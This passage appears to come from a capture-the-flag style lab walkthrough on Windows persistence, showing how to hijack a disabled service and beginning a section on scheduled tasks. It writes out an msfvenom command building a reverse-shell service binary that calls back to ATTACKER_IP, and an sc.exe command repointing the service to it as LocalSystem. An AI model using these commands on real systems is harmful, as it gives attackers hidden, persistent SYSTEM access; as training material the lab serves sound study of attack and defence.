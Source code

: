 While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.

You can get a list of available services using the following command:

`C:\> sc.exe query state=all`

You should be able to find a stopped service called THMService3. To query the service's configuration, you can use the following command:

`C:\> sc.exe qc THMService3`

### 14.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

There are three things we care about when using a service for persistence:

* The executable (**BINARY_PATH_NAME**) should point to our payload.
* The service **START_TYPE** should be automatic so that the payload runs without user interaction.
* The **SERVICE_START_NAME**, which is the account under which the service will run, should preferably be set to LocalSystem to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:

`user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe`

To reconfigure "THMservice3" parameters, we can use the following command:

`C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"`

You can then query the service's configuration again to check if all went as expected:

### 15.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Start a Metasploit listener on your attacker's machine and manually start the service to receive a reverse shell.

-------------------------------------------------------

## 4. Abusing Scheduled Tasks

We can also use scheduled tasks to establish persistence if needed. There are several ways to schedule the execution of a payload in Windows systems. Let's look at some of them:

### Task Scheduler

The most common way to schedule tasks is using the built-in Windows task scheduler. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on Microsoft's website.
